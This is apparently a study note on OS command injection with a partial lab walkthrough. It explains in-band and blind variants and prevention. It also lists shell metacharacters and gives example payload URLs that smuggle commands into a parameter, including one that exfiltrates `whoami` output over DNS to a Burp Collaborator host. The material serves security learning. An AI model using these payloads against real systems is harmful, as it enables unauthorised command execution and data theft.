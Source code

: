 
Command injection is a vulnerability where a attacker can run commands on a host operating system via a vulnerable application

## Types of command injection vulnerabilities -

#### 1. In-band command injection - 

  Here we receive the response of the command sent via http response.
  
How to detect ?

> Use **shell metacharacters** - `&` `;`  `Newline (0x0a or \n)` `&&`  `|`  `|| `  `'` `$` 
  

  
#### 2. Blind  command injection - 

  Here it does not return the output of the command within the HTTP response. 

How to detect ?

> - Trigger a **time-delay** using `ping` or `sleep` command 
> eg -
> 
>   `https://vulnerable-website/endpoint?parameter=x||ping -c 10+127.0.0.1||`  
>        `https://vulnerable-website/endpoint?parameter=x & sleep 10 &`

>
> - Output the **response of the command to web root** and access the file directly via web browser. 
> eg - `https://vulnerable-website/endpoint?parameter=||whoami>/var/www/images/output.txt||`

> - Open an **Out-of Band channel to a server you control** like Burp collaborator.
> eg - `https://vulnerable-website/endpointparameter=x||nslookup+burp.collaborator.address||`
> 
> TIP - Exfiltrate the output of your command 
> 
> ```https://vulnerable-website/endpointparameter=||nslookup+`whoami`.burp.collaborator.address||```

#### Some vulnearble functions - 

```

-   exec
-   command
-   execute
-   ping
-   query
-   jump
-   code
-   reg
-   do
-   func
-   arg
-   option
-   load
-   process
-   step
-   read
-   function
-   req
-   feature
-   exe
-   payload
-   run
-   print
```



## Prevent -
- Avoid using shell execution functions. If unavoidable, limit their use to very specific use cases.
- Perform proper input validation when taking user input into a shell execution command.
- Use a safe API when accepting user input into the application.
- Escape special characters in the case where a safe API is not available.

----------------------------------------

## LAB 1 - OS command injection, simple case  [APPRENTICE]

```
This lab contains an OS command injection `vulnerability in the product stock checker`.

The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

To solve the lab, execute the `whoami` command to determine the name of the current user.
```

**Solution -**

Vulnerability is in check stock filter 

![image](https://user-images.githubusercontent.com/67383098/225234017-13d55e1d-074c-40e9-ab3e-afea6521d066.png)

On clicking the link, the request & response looks like

![image](https://user-images.githubusercontent.com/67383098/225234846-54839e9f-d6a2-4e36-8b8b-fe493a112676.png)

![image](https://user-images.githubusercontent.com/67383098/225235472-03edc2dd-d895-4e42-9720-46ab3a2445fc.png)



We need to check which parameter is vulnerable [`productID` or `storeID`]






















